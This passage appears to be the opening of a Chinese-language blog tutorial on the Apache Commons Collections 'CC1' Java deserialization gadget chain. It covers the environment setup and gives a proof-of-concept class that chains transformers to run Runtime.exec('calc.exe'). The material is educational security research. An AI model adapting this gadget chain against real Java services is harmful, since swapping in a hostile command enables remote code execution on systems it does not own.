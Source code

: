 # CommonCollections链

## 前言

开始学 java 反序列化的时候，搭环境是真的不知道怎么下手，就开始跟着学习 URLDNS 那条链子的时候，就挺不知道怎么操作，但后面在网上找了下 CC链的分析的时候，有师傅把环境搭建过程也写了下，就一下豁然开朗了。

因为也是初次接触 java 反序列化，所以内容会详细一点，文章内容也会比较长，可以跟着索引慢慢看

## CC1

### 环境搭建

JDK1.7

commons-collections-3.1

创建一个Maven项目，不用选择任何Maven模板；
在 pom.xml 中添加如下代码：

```
<dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
    </dependencies>
```

刷新一下，成功导入 commons-collections-3.1。

![1](/img/262.png)

一个POC：

```java
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class cc1 {
    public static void main(String[] args) throws Exception {
        //构建一个transformer的数组
        Transformer[] transformers = new Transformer[] {
                //返回Runtime对象
                new ConstantTransformer(Runtime.getRuntime()),
                //调用exec方法执行calc.exe命令
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"})
        };
        //将transformers数组传入ChainedTransformer类
        Transformer transformerChain = new ChainedTransformer(transformers);
        //创建Map并绑定transformerChain
        Map innerMap = new HashMap();
        //包装innerMap
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //触发回调
        outerMap.put("test1", "xxxx");
    }
```